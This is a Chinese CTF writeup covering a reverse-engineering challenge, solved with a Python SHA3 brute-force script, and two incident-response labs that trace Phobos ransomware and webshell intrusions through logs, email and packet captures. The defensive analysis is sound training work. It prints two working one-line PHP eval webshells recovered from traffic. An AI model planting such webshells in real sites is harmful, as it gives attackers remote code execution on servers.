# 11 月 Writeup

## Reverse - 3_idiots

### CHM

`chm` 格式是 Windows 经过编译的帮助手册文件。用内置帮助浏览器打开会提示有不安全内容，于是进行解压：

```sh
hh -decompile ./output ./3_idiots.chm
```

发现输出了一个 `test.exe` 文件。

### test.exe 分析

`start()` 函数先设置了一个函数指针，指向 `sub_140001180()`，后者是一个按位比较函数。



`sub_140002260()` 为主逻辑所在区域，打开了注册表 `HKEY_CURRENT_USER\Software\solar_202511` 下 `pswd` 的值（作为字符串）存入 `Data` 给 `sub_140002110()` 进行检查，其应为 `900dbabe900dcafe`，之后会弹出一个提示框。

但是实际设置运行之后，并没有按预期弹出提示。进一步分析 `sub_140002110()`，发现：

- 其验证注册表字符串范围必须是 `0-9` 或者是 `a-f`；
- 其将检查函数指针置于0，会导致程序出错；



但实际运行中并没有出错，怀疑有异常处理机制，没被明确引用的若干函数与出现两次的 Flag 提示字符串加大了这一可能性。于是进行动态调试，错误传给程序后，发现跳转到了未用到的函数中。给 AI 重命名了一下函数名之后，转到函数如下：



这里是正确的校验过程，将注册表值的 SHA-3 校验值与 `v2` 比对。向下查看子函数，发现在实际计算 SHA-3 前，先修改了正确提示，将其改成了提交 **MD5 的十六进制大写形式**。



于是通过脚本爆破，找到完全匹配 SHA-3 的四位字符串即可：

```python
#!/usr/bin/env python3
import argparse
import sys
import time
import hashlib
import os
from concurrent.futures import ProcessPoolExecutor, as_completed

IDA_CHARS = bytes([
    0x9A, 0xBD, 0xBC, 0x58, 0x79, 0x2A, 0x7E, 0x9B, 0xFF, 0x22,
    0x49, 0x85, 0x4F, 0x0A, 0x1E, 0x2C, 0x0B, 0xCB, 0x28, 0xD8,
    0x93, 0xE9, 0x50, 0xFB, 0xEE, 0x2F, 0x7D, 0x3A, 0xBD, 0xFA,
    0x9D, 0xEA
])

CHARSET = b"0123456789abcdef"

def dsha3(b: bytes) -> bytes:
    h1 = hashlib.sha3_256(b).digest()
    h2 = hashlib.sha3_256(h1).digest()
    return h2

def brute_one_byte(b1: int, b2: int, b3: int, pos: int = 0):
    start = time.time()
    for x in range(256):
        v = [0, 0, 0, 0]
        v[pos] = x
        fixed = [b1, b2, b3]
        idx = 0
        for i in range(4):
            if i == pos:
                continue
            v[i] = fixed[idx]
            idx += 1
        inp = bytes(v)
        if dsha3(inp) == IDA_CHARS:
            print(f"FOUND: {inp.hex()} -> {inp}")
            print(f"time: {time.time() - start:.3f}s")
            return True
    print("NOT FOUND")
    return False

def idx_to_bytes(idx: int) -> bytes:
    v = bytearray(4)
    base = 16
    for pos in range(3, -1, -1):
        v[pos] = CHARSET[idx % base]
        idx //= base
    return bytes(v)

def _worker_scan_range(start: int, end: int):
    for i in range(start, end):
        inp = idx_to_bytes(i)
        if dsha3(inp) == IDA_CHARS:
            return inp
    return None

def brute_full(workers: int = 0, start_i: int = 0, end_i: int = (16**4)):
    t0 = time.time()
    if start_i < 0:
        start_i = 0
    if end_i > (16**4):
        end_i = (16**4)
    if end_i <= start_i:
        print("invalid range")
        return False
    if workers <= 1:
        for i in range(start_i, end_i):
            inp = idx_to_bytes(i)
            if dsha3(inp) == IDA_CHARS:
                print(f"FOUND: {inp.hex()} -> {inp}")
                print(f"time: {time.time() - t0:.3f}s")
                return True
        print("NOT FOUND")
        return False
    else:
        total = end_i - start_i
        workers = min(workers, os.cpu_count() or 1)
        step = max(1, total // (workers * 8))
        ranges = []
        cur = start_i
        while cur < end_i:
            nxt = cur + step
            if nxt > end_i:
                nxt = end_i
            ranges.append((cur, nxt))
            cur = nxt

        with ProcessPoolExecutor(max_workers=workers) as ex:
            futures = [ex.submit(_worker_scan_range, s, e) for (s, e) in ranges]
            for fut in as_completed(futures):
                inp = fut.result()
                if inp is not None:
                    print(f"FOUND: {inp.hex()} -> {inp}")
                    print(f"time: {time.time() - t0:.3f}s")
                    for f in futures:
                        f.cancel()
                    return True
        print("NOT FOUND")
        return False

def parse_hex_byte(s: str) -> int:
    s = s.strip().lower()
    if s.startswith("0x"):
        s = s[2:]
    v = int(s, 16)
    if not (0 <= v <= 255):
        raise ValueError("byte out of range")
    return v

def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--mode", choices=["one", "full"], default="one")
    ap.add_argument("--pos", type=int, default=0)
    ap.add_argument("--b1", type=str)
    ap.add_argument("--b2", type=str)
    ap.add_argument("--b3", type=str)
    ap.add_argument("--workers", type=int, default=os.cpu_count() or 0)
    ap.add_argument("--start", type=lambda x: int(x, 0), default=0)
    ap.add_argument("--end", type=lambda x: int(x, 0), default=(1<<32))
    args = ap.parse_args()

    if args.mode == "one":
        if args.b1 is None or args.b2 is None or args.b3 is None:
            print("need --b1 --b2 --b3 hex bytes")
            sys.exit(1)
        b1 = parse_hex_byte(args.b1)
        b2 = parse_hex_byte(args.b2)
        b3 = parse_hex_byte(args.b3)
        ok = brute_one_byte(b1, b2, b3, pos=args.pos)
        sys.exit(0 if ok else 2)
    else:
        ok = brute_full(workers=args.workers, start_i=args.start, end_i=args.end)
        sys.exit(0 if ok else 2)

if __name__ == "__main__":
    main()

# 运行：script.py --mode full
```

得到目标字符串为 `fade`，同时也通过了验证。于是 Flag 为 `flag{CC3216B3C60FD8EA5C7A8ABCD3DE6F82}`。

## 应急响应

### 2700勒索病毒排查

- 账号：`Solar`
- 密码：`Solar521`

#### 病毒判别 (1~3)

据题目提示感染文件后的扩展名为 `.2700`，到勒索病毒搜索引擎网站找到病毒家族为 `Phobos`。同时获得病毒行为描述：

> 与常见的勒索家族不同，phobos加密后通常会生成 info.txt 和 info.hta 两个勒索信批量存放在每个文件夹下。

获知勒索病毒留下的信息在 `info.txt` 与 `info.hta` 中，在靶机中打开 `info.hta` 后，得到预留 ID 为 `4A30C4F9-3524`（找了其他几个目录下的 HTA 文件，都是一样的，因此猜测只有一个预留 ID）。

#### 恢复与分析溯源 (4~8)

一般来说，病毒加密文件的修改时间会非常接近，因此从感染文件的修改时间不难得出加密时间为 `2025/11/19 14:31`。



下载解密工具，提取出 `flag.txt` 文件并使用其恢复，得到 Flag 为 `flag{6eff1ea09e63423a48288a77d97e0cc6}`。

`mail` 目录下有一个 `已开发票（附件打开）.eml` 邮件，较为可疑。从 `From` 与 `X-Originating-IP` 字段分别能得到发件人邮箱为 `1983929223@qq.com`、IP 为 `39.91.141.213`。



从邮件的后半部分能够提取出一个 ZIP 压缩包文件，内含 `发票.pdf.exe` 病毒程序，将其上传到沙箱进行分析，简单排除后得到可能的 C2 服务器 IP 为 `182.9.80.123`（前面一条是正常使用的 CDN）。



`backup` 目录下有一个 20GB 磁盘镜像，考虑到文件大小在靶机环境使用 DiskGenius 作为虚拟磁盘镜像挂载。在 Solar 用户的桌面目录找到了 `flag.bak`，得到 Flag 为 `flag{92047522e5080bad36eda9d29d5a163e}`。



### emergency

- 用户名：`Administrator`
- 密码：`Qsnctf2025`

题目除了靶机外还给了虚拟机镜像与流量包，分析起来轻松一些。虚拟机与靶机的 Web 服务路径在 `C:\phpstudy_pro\WWW`。

#### WebShell (1~4)

将流量包给分析软件进行处理，发现 `10.0.100.69` 与 `10.0.100.13` 间的流量很多，随便挑一个文件查看，从传输的内容不难看出攻击者是 `10.0.100.69`。

从虚拟机磁盘中的 `access.log` 中可发现，`10.0.100.69` 存在扫目录行为，能更直接地得出相同的答案。

对于初始连接，我们不妨考虑连接成功（即服务器有回显）的情况。简单追踪流，发现流 28 处服务器对发送的 WebShell 指令首次有了响应，对应的初始连接木马密码为 `shell`。

这时攻击者使用的木马位于 `/cache/chche_file/configs.cache.php`，因此可能受缓存期限而有一个存活期；与之相对、持久存储的是**不死马**，因此需要据此找到有写入文件命令的流量。最终在第 63 流找到了符合条件的流量，提取出来进一步解析：



发现文件内容以十六进制形式写入，解码后证实是 WebShell：

```php
<?php @eval($_POST["qsnctf_2025_lab"]); ?>
```

流量中也曾出现过 `shell.php`，但在虚拟机文件系统与靶机中均未找到，能找到的只有 `.config.php`，其密码为 `4aad625950d058c24711560e5f8445b9`。

```php title=".config.php"
<?php @eval($_P0ST["4aad625950d058c24711560e5f8445b9"]); ?>
```

#### 远控操作 (5~10)

没能在文件系统中找到远控木马，依然在流量包中寻找，发现第 89 流中有一大段十六进制代码，应为木马文件。解析时发现，上传文件的路径为 `me3bb5c75c1d85` 参数的值**去掉前两个字符**后进行 Base64 解密得来，为 `C:/phpstudy_pro/WWW/shell.exe`，即木马文件名为 `shell.exe`。



计算其 MD5 为 `0410284ea74b11d26f868ead6aa646e1`。将 `shell.exe` 上传到云沙箱分析，得到远控端口为 `4444`。



对于用户创建行为，可直接去查看系统事件，得到创建时间为 `2025/11/20 16:13:32`，用户名为 `hidden$`。



用户密码给取证软件识别出了，密码为 `P@ssw0rd123`。


